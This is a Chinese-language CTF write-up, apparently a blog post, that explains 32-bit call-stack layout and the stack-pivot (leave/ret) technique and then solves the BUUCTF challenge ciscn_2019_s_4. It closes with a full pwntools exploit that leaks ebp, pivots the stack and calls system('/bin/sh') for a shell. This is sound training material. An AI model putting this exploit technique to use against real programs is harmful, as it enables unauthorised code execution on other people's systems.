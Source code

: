 ```yaml
---
title: "[PWN.0x00]函数调用栈结构与栈迁移"
date: 2022-03-05T20:30:31+08:00
draft: false
url: "articles/CTFpwn1"
categories: ["CTF","PWN"]
---
```


**前置知识：**[汇编语言（第4版）](https://book.douban.com/subject/35038473/)前半本

> 注：本文适用于32位程序，示意图中上为高地址区，下为低地址区。若方框中字体为蓝色表示此处内存的地址，为黑色表示此处内存存储的值。**示意图中leave均表示leave|ret**

#### 函数调用栈的基本结构

**一些寄存器的作用：**

EIP：存储着下一条指令的地址，每执行一条指令，该寄存器变化一次。

EBP：存储着当前函数栈底的地址，通过将其与偏移地址相加减获取变量的地址。

ESP：始终指向栈顶。

在进入一个函数时，会执行如下操作。

```assembly
push eip+4
push ebp
mov ebp,esp
```

在执行完退出时，会执行如下操作。

```assembly
mov esp,ebp
pop ebp

pop eip
```

即leave和ret。

整个过程描述起来就是，先将函数执行完成之后应当去执行的语句（eip+4）和主程序的的基址（ebp）压入栈中，然后再将ebp指向栈底。在函数执行完之后，再进行一遍上述过程的逆过程。

函数调用栈工作时的结构如下图：

其中val0地址处存储主程序传入的参数，如果有多个传入参数，它们将按照从右到左的顺序被push入栈中，val1~3为函数申请的局部变量。它们将按照申请的顺序被放入栈中。举例来讲，形如：

```c
void func(int a){
    int b,c;
    char s[10];
}
```

这样的函数，a将被存入val0，b将被存入val1，c将被存入val2，s将被存入val3。

考虑最基础的栈溢出题目，由于程序将按照地址从低到高的顺序存储字符串变量，所以当s的数据由选手掌控且溢出空间足够大时，s将溢出到val2，val3，甚至旧ebp，eip的位置上。所以选手就可以控制旧ebp，eip处的内容，实现劫持程序返回，让程序执行恶意代码的目的。

但有时候，选手能掌控的数据量很有限，不足以支持我们完成过于复杂的劫持指令，对于这种情况，其中一种解题方法就是栈迁移。



#### 栈迁移

栈迁移的核心思想是劫持当前函数已经压入栈中的eip段，将其内容改为一次leave，同时修改旧ebp段，借助旧ebp为跳板，实现对esp的控制，进而在下一次ret中，修改eip的值，实现目的。

也就是说，要构造栈中数据如图所示：

至于为什么要-4，后面模拟的过程中读者自能体会。

好了，现在当前函数已经执行完了，程序将自行执行一次leave和ret。执行之后的结果如图：



然后程序会执行eip指向的地址的命令，即再执行一次leave，ret，执行后栈的情况如图：



这样我们就完成了借助ebp为跳板，将esp指向目标eip的位置，控制程序在最后一次ret（即pop eip）的时候，将eip赋值成了我们想让它执行的函数的地址。



#### 例题：ciscn_2019_s_4

[BUUCTF在线评测 (buuoj.cn)](https://buuoj.cn/challenges#ciscn_2019_s_4)

所谓“从零开始的Pwner生活”第一题，差点直接给我整劝退。

惯例checksec，只开了NX。

ida分析得到：

```c
int vul()
{
  char buf[40]; // [esp+0h] [ebp-28h] BYREF
  memset(buf, 0, 0x20u);
  read(0, buf, 0x30u);
  printf("Hello, %s\n", buf);
  read(0, buf, 0x30u);
  return printf("Hello, %s\n", buf);
}
```

发现只有8个字节的溢出空间，不足以支持一次完整的ROP，但是可以读两次，且第一次读入有输出，因此可以利用第一次读入来泄露ebp（注：这里的ebp指的是vul函数的ebp，即read函数栈帧中的旧ebp）。

第一次读满0x28个字节，由于printf输出的时候会一直输出到\x00为止，所以会把ebp也一起输出来。

在第二次输入的时候构造一个栈迁移的结构，将栈迁移到我们能控制的buf段。



结合文章开头函数调用栈的知识，不难理解，'bin/sh'和buf_addr+12都将作为输入的参数输入到system函数中，所以程序最终执行的效果就是获取了shell。

注意到我们需要填入的信息中需要我们预先知道buf的地址，可以在本地动态调试（gdb）中获取ebp和buf地址的差值，然后作差得到。**不要想当然地认为buf和ebp的差值就是0x28，这只是在read函数中的情况，此处的ebp指的是vul函数中的ebp，即read函数中ebp指向的oldebp。**

EXP：

```python
from psutil import process_iter
from pwn import *
context(arch="i386",log_level="debug")
op=0
e=ELF("ciscn-s-4.bin")
sys_addr=e.symbols['system']
leave_addr=0x080484B8
def main():
    if op==1:
        zeroy=process("ciscn-s-4.bin")
    else:
        zeroy=remote("node4.buuoj.cn",27827)
    payload1=b'a'*0x24+b"bbbb"
    zeroy.recvuntil("name?")
    zeroy.send(payload1)
    zeroy.recvuntil("bbbb")
    ebp_addr=u32(zeroy.recv(4))
    print("ebp_addr: ",hex(ebp_addr))
    buf_addr=ebp_addr-0x38
    payload2=p32(sys_addr)+b'aaaa'+p32(buf_addr+12)+b'/bin/sh\x00'
    payload2=payload2.ljust(0x28,b'a')+p32(buf_addr-4)+p32(leave_addr)
    zeroy.send(payload2)
    zeroy.interactive()
main()
```
